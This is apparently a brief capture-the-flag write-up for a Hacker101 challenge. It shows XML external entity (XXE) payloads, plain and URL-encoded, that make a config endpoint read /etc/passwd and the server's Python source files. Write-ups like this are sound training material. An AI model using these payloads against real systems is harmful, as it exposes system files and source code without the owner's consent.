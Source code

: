 Found an admin page with burp.
https://xxxxxxxxxxxx.ctf.hacker101.com/admin

In the admin page we have a comment:
<!-- We should be using get-config for this on the client side. -->

https://xxxxxxxxxxxx.ctf.hacker101.com/get-config

On top of the page there is `<?xml version="1.0" encoding="UTF-8"?>` which indicates the server uses xml for config.

xxe payload: `<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><config><location>&xxe;</location></config>`

using this website the payload can be turned into url friendly format: https://www.urlencoder.org/

https://xxxxxxxxxxxx.ctf.hacker101.com/get-config?data=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

![Alt text](image.png)

The server is hosted with python so we can read the main.py file which has the first flag.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "main.py">]><config><location>&xxe;</location></config>`

![Alt text](main.py)

In the main file we can see the server is using a custom rng file.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "rng.py">]><config><location>&xxe;</location></config>`

Now to reverse the pseudorng (see ![Alt text](flag2.md))...
